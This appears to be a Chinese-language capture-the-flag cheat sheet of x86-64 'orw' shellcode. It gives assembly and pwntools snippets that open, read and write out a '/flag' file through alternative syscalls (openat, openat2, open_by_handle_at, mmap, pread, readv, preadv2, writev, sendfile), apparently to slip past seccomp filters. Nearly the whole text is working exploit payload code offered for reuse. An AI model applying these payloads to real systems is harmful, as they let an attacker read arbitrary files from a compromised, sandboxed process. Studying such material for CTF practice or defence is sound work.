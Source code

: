 # orw shellcode绕过

# open

## open("/flag",0)

```undefined
/* open(file='/flag', oflag=0, mode=0) */
    /* push b'/flag\x00' */
    mov rax, 0x101010101010101
    push rax
    mov rax, 0x101010101010101 ^ 0x67616c662f
    xor [rsp], rax
    mov rdi, rsp
    xor edx, edx /* 0 */
    xor esi, esi /* 0 */
    /* call open() */
    push SYS_open /* 2 */
    pop rax
    syscall
```

## openat(3,"/flag")

```undefined
/* openat(fd=3, file='/flag', oflag=0) */
/* push b'/flag\x00' */
mov rax, 0x67616c662f
push rax
xor rdi, rdi
sub rdi, 100
mov rsi, rsp
xor edx, edx
xor r10, r10
push SYS_openat
pop rax
syscall
```

## openat2

```undefined
flag_addr+0x20指向0
shellcode=asm(shellcraft.openat2(-100,flag_addr,flag_addr+0x20,0x18))
shellcode1=asm(f'''
mov rdi,0
sub rdi,100
mov rdx,0
push rdx
mov rdx,rsp
mov rsi, 0x67616c662f
push rsi
mov rsi,rsp
add rdx,0x100
mov r10,0x18
mov rax,0x1b5
syscall
''')
```

## name\_to\_handle\_at&open\_by\_handle\_at

```undefined
shellcode1=asm(f'''
xor rdi,rdi
sub rdi, 100
mov rsi, 0x67616c662f
push rsi
mov rsi,rsp
xor rdx,rdx
push rdx
mov rdx,rsp
add rdx,0x200
xor r10,r10
push r10
mov r10,rsp
xor r11,r11
mov rax,303
syscall

mov rdi,-100
mov rsi,rdx
xor rdx,rdx
mov rax,304
syscall
''')
chunk3+0x530和chunk3+0x630指向0
需要在root下，不好使
#shellcode1=asm(shellcraft.name_to_handle_at(-100,flag_addr,chunk3+0x530,chunk3+0x630,0))
#shellcode1+=asm(shellcraft.open_by_handle_at(-100,chunk3+0x530,0))
```

# read

## mmap(addr，len，7，18，3，0）

```undefined
shellcode=asm('''
mov rdi, 0x10000
mov rsi, 0x1000
mov rdx, 7
push 18
pop r10
push 3
pop r8
xor r9, r9
push 9
pop rax
syscall
''')
```

## read

```undefined
rsi为合法地址即可
shellcode=asm('''
push 3
pop rdi
push 0x40
pop rdx
xor rax,rax
syscall
''')
```

## pread(3,buf,len,0)

```undefined
shellcode=asm('''
mov rdi, 3
mov rsi, 0x67616c662f
push rsi
mov rsi,rsp
mov rdx, 50
xor r10, r10
push 17
pop rax
syscall
''')
```

## readv(3,iovc,1)

```undefined
shellcode=asm('''
push 3
pop rdi
push 1   
pop rdx
lea rbx, [rsp-8]
push rbx
mov rsi, rsp
push 19
pop rax
syscall
''')

readv和writev需要让rsi指向一个结构体，这个结构体为
struct iovec
{
    void   user *iov_base; 
    kernel_size_t iov_len;
};
这个结构体里面的变量都是8个字节，并且iov_base是要写入的地址，iov_len是写入的长度
```

## preadv(3,iovc,1,0)

```undefined
shellcode=asm('''
mov rdi, 3
push 0x30
lea rbx, [rsp-8]
push rbx
mov rsi, rsp
mov rdx, 1
xor r10, r10
xor r8, r8
push 0x127
pop rax
syscall
''')
```

## preadv2(3,iovec,1,0)

```undefined
shellcode=asm('''
mov rdi, 3
push 0x30
lea rbx, [rsp-8]
push rbx
mov rsi, rsp
mov rdx, 1
xor r10, r10
xor r8, r8
push 327
pop rax
syscall
''')
```

# write

## write(1，buf，0x40)

```undefined
shellcode=asm('''
push 1
pop rdi
push 0x40
pop rdx
push 1
pop rax
syscall
''')
```

## writev(1,iovc,1)

```undefined
shellcode=asm('''
push 1
pop rdi
push 1    /* iov size */
pop rdx
push 0x100
lea rbx, [rsp+8]
push rbx
mov rsi, rsp
push 20
pop rax
syscall
''')
```

# sendfile

```undefined
shellcode=asm('''
mov rdi, 1
mov rsi, 3
push 0
mov rdx, rsp
mov r10, 0x100
push SYS_sendfile
pop rax
syscall
''')
```
